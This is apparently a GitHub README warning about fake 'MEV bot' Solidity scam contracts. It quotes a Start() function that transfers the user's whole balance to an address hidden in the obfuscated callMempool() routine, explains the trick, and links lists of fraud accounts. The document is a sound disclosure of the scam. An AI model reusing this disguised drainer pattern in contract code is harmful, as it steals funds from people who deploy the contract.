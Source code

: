# mev-bot-fraud

Be careful for the fake mev-bot codes 

Wanted to study the mevbot, unexpectedly found a scam, so want to remind you to avoid being cheated, many similar to this project of https://github.com/KayExpertbots/Mevbot, fake script like this 

```
    function Start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

```

Start looks like a startup script is actually a transfer, will transfer your balance to an address, '_callMEVAction()' This method is actually the last will generate a wallet address, around is to cheat some beginners, so we must look at it, see this code must be careful 

![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/dc4f05ca-abf7-4146-84d6-d528f08195f1)

```
transfer(address(this).balance);
```

```
 function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 3410611; //Gas estimate update
        uint _memPoolLength = 2418259; //Gas estimate update
        uint _memPoolSize = 2563395760; //Gas estimate update
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

```
![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/7334fcdc-405c-45ce-9753-317cc112c9bd)


These are all lies so just a reminder, you can also help to light up the stars, so that more people can see 

<img width="1360" alt="image" src="https://github.com/chunsenye/mev-bot-fraud/assets/30768615/b87707ad-ae0c-4d49-892c-a54af47947d2">


[Fraud account list -- 【诈骗账号】](https://github.com/chunsenye/mev-bot-fraud/issues/2)

[List of Fraud projects - 【诈骗项目列表】](https://github.com/chunsenye/mev-bot-fraud/issues/1)


【Some real projects  of mev bot】

[go outside labs mev-toolkit](https://github.com/go-outside-labs/mev-toolkit)

